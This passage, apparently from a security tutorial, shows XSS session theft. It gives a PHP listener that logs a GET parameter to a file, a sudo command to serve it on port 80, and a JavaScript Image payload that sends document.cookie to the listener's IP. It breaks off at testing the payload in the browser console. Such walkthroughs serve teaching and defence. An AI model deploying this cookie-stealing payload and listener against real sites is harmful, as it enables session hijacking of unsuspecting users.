 The request was captured.

## Session theft concept

> For the case of simplicity and illustrating the concepts, I’ve chosen to use simple [built-in PHP http server](http://php.net/manual/pl/features.commandline.webserver.php) as we are not interacting with SSL traffic for now.

Let’s create something quick in PHP language.
_index.php_
```php
<?php
if (isset($_GET['xss'])) {  
  $string = $_GET['xss'];  
  $handle = fopen('xss.txt', 'a');  
  fwrite($handle, $string."\n");fclose($handle);  
}
```

Example above is saving the GET _xss_ parameter from incoming requests into a file named _xss.txt._

In shorter words it just saves the received cookie into a file.

### Start the server with elevated privileges.

```
sudo php -S 0.0.0.0:80 -f index.php -t .
```

- **-S 0.0.0.0:80** - _Listen on all interfaces, port 80_
- **-f index.php** - _Specified file to parse_
- **-t .** - _Directory root (dot means current directory)_

The main point for now is to make the client send a request into our listener.

### Fake image

_payload.js_
```javascript
// My interface IP address: 192.168.1.101
new Image().src="http://192.168.1.101/?xss="+document.cookie
```

Basically we are creating a new image object, source of which points to our listener at **192.168.1.101**, and while the browser is requesting to load a fake image, the server captures the URL parameter containing the cookie.

At first let’s test it locally with help of the developer console and then we’ll move out to injecting a script in non-physical access based situations.

### **_Open up the developer console (F12) and test the payload._**
